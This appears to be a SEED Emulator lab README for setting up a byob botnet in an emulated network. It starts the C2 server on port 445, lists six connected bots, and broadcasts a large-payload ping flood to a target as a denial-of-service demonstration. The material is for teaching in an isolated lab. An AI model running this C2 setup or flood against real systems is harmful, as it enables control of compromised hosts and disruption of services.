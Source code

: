 # Botnet

In this example, we show how to deploy a botnet inside the 
SEED Emulator. We first create a bot controller and 6 bots.
We then deploy the controller on `10.150.0.66`, and 
deploy the bots in randomly selected autonomous systems.
See the comments in the code for detailed explanation.

We have also recorded a 
[video](https://www.youtube.com/watch?v=5FYWB-b21bg&list=PLwCoMLt7WGjan54CuqeYGnJuMqA-RzQwD)
to explain the details of this example. 
We have modified the code (`botnet-base.py`) since the video was recorded,
so the code used in the video is slightly different from the code here. 


## Start the Controller

We will find the Bot controller container, and get a shell on it. 
We have customized the display names of the controller and all the bot nodes 
with a prefix `Bot-`, so they are quite easy to find. 
Once we are inside the controller, we can start the `byob` 
server. 

```
# cd /tmp/byob/byob
# python3 server.py --port 445
```

We will then wait for the bot nodes to connect to the server. We have deployed
6 bot nodes in the emulator, so we should see 6 clients. We can type the 
`sessions` command to see their information.

```
[byob @ /tmp/byob/byob]>sessions
0
  public_ip          10.151.0.73
  local_ip           10.151.0.73
  platform           linux
  mac_address        24:20:A9:70:04:9
  architecture       64
  username           user
  administrator      True
  device             721736c3959c
  owner              None
  latitude           0
  longitude          0
  uid                b4a453a1fd66f9108e23c96716455f3b
  joined             2021-08-08 14:20:01.213183
  online             True
  sessions           True
  last_online        2021-08-08 14:20:01.213259

1
  ...
```

## Launch Attacks

You can find the online manuals regarding how to use `byob`. Here, we will
just do a simple testing. We broadcast a command to all the bots, asking them
to ping `10.161.0.71` 10 times, with each ICMP packet carrying a large payload.
From the visualization map, we should clear see the attack traffic.
This demonstrates a denial-of-service attack. 

```
[byob @ /tmp/byob/byob]>broadcast ping -c 10 -s 5000 10.161.0.71
```

